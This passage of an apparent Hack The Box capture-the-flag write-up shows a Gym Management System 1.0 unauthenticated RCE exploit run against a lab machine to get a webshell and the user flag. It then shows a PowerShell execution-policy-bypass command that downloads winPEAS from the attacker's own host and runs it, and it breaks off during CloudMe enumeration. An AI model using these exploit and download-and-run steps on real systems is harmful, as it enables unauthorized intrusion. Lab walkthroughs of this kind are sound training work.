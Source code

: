     :::text
    kali@kali:~$ searchsploit Gym Management
    ------------------------------------------------ ---------------------------------
    Exploit Title                                  |  Path
    ------------------------------------------------ ---------------------------------
    Gym Management System 1.0 - Unauthenticated RCE | php/webapps/48506.py
    ------------------------------------------------ ---------------------------------

We run the exploit, see who we are and get the user flag.

    :::text
    kali@kali:~$ python2 48506.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,
    `^^^^^^^^^^^^ /============BOKU====================="
                \/

    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload>


    C:\xampp\htdocs\gym\upload> whoami
    �PNG
    �
    buff\shaun

    C:\xampp\htdocs\gym\upload> type "C:\Users\shaun\Desktop\user.txt"
    �PNG
    �
    6c675c6c581ec9341b8ed8717c537e32

# root

We can use our limited shell to download exec from our kali box (running a
simple python HTTP server) and execute them. For instance we can run
[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

    :::text
    C:\xampp\htdocs\gym\upload> powershell -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/winPEAS.exe', '.\winPEAS.exe')
    C:\xampp\htdocs\gym\upload> .\winPEAS.exe
    <SNIP>

## Cloudme

Still browsing our user's folders we found an specific binary in `Downloads`:
`CloudMe_1112.exe`.

    :::text
    C:\xampp\htdocs\gym\upload> dir "C:\Users\Shaun\Downloads"
    �PNG
    �
    Volume in drive C has no label.
    Volume Serial Number is A22D-49F7
